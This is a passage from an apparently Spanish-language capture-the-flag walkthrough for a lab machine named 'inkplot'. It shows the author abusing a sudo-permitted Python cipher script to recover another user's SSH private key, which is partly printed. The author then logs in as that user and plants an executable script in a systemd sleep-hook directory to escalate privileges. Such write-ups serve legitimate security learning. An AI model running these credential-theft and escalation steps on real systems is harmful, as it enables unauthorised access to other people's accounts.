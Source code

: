 Conociendo esto, puedo utilizarlo para poder leer el archivo "id_rsa" de pauline.

```
╭─leila@inkplot ~ 
╰─$ cd /home/pauline 
╭─leila@inkplot /home/pauline 
╰─$ sudo -u pauline /usr/bin/python3 /home/pauline/cipher.py -e .ssh/id_rsa
sudo: unable to resolve host inkplot: Name or service not known
The encrypted and encoded content has been written to: 
id_rsa.enc
╭─leila@inkplot /home/pauline 
╰─$ cat id_rsa.enc | base64 -d > /tmp/id_rsa_not64.enc
╭─leila@inkplot /home/pauline 
╰─$ sudo -u pauline /usr/bin/python3 /home/pauline/cipher.py -e /tmp/id_rsa_not64.enc 
sudo: unable to resolve host inkplot: Name or service not known
The encrypted and encoded content has been written to: 
id_rsa_not64.enc.enc
╭─leila@inkplot /home/pauline 
╰─$ cat id_rsa_not64.enc.enc | base64 -d                             
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEArstJauKY8iDoZ1szhWBOMOcer1ns14OgabV4yGuWbLSXj/kzjCRE
UcMu61sUYLd3NFK4JAdScTsZFaVb2ll7grwrSWXEVQL3t4K6TnZzJs6b7bkMpJ2DjPvAa7
KimRoRg02maHKPMZCkxE0cE6OoldmhnQYr1Ou22MzEBTzpjamwcPb+wwgLPFvmDxwx6zUt
JqlBAowHuk+nsHwCVuwy4ucUHvxwsQy6D+n5hBW6gSSEpNUakxrte24kDY7c5NTkcsFjGG
[...]
```

Ahora ya puedo conectarme mediante ssh como Pauline.

```
$ nvim pauline_rsa
$ chmod 600 pauline_rsa 
$ ssh pauline@192.168.1.28 -i pauline_rsa
╭─pauline@inkplot ~ 
╰─$  :)
```

### Pauline

Pauline pertenece al grupo "admin", por lo que busco carpetas y ficheros que pertenezcan a este grupo.

```
╭─pauline@inkplot ~ 
╰─$ find / -group admin 2>/dev/null
/usr/lib/systemd/system-sleep
```

"/usr/lib/systemd/" es una ubicación importante en sistemas que utilizan el sistema de inicio y gestión de servicios **systemd**. Por lo que todo apunta a que en este directorio se ejecutará un script.

```
╭─pauline@inkplot ~ 
╰─$ cd /usr/lib/systemd/system-sleep                                                                            1 ↵
╭─pauline@inkplot /usr/lib/systemd/system-sleep 
╰─$ nano custom_script
╭─pauline@inkplot /usr/lib/systemd/system-sleep 
╰─$ chmod +x custom_script
```
